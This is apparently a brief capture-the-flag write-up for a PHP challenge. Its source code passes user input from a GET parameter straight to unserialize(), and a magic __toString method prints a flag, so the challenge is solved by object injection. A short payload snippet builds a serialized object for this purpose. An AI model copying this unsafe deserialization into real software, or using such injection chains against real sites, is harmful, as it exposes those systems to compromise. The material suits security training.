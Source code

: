 ```php
class Ion_Fan_Princess{
    public $nickname="牛夫人";

    public function call(){
        global $flag;
        if ($this->nickname=="小甜甜"){
            echo $flag;
        }else{
            echo "以前陪我看月亮的时候，叫人家小甜甜！现在新人胜旧人，叫人家".$this->nickname."。\n";
            echo "你以为我这么辛苦来这里真的是为了这条臭牛吗?是为了你这个没良心的臭猴子啊!\n";
        }
    }
    
    public function __toString(){
        $this->call();
        return "\t\t\t\t\t\t\t\t\t\t----".$this->nickname;
    }
}

if (isset($_GET['code'])){
    unserialize($_GET['code']);

}else{
    $a=new Ion_Fan_Princess();
    echo $a;
}
```

Payload:

```
$a=new Moon();
$W=new Ion_Fan_Princess();
$a->name=$W;
echo serialize($a);
```

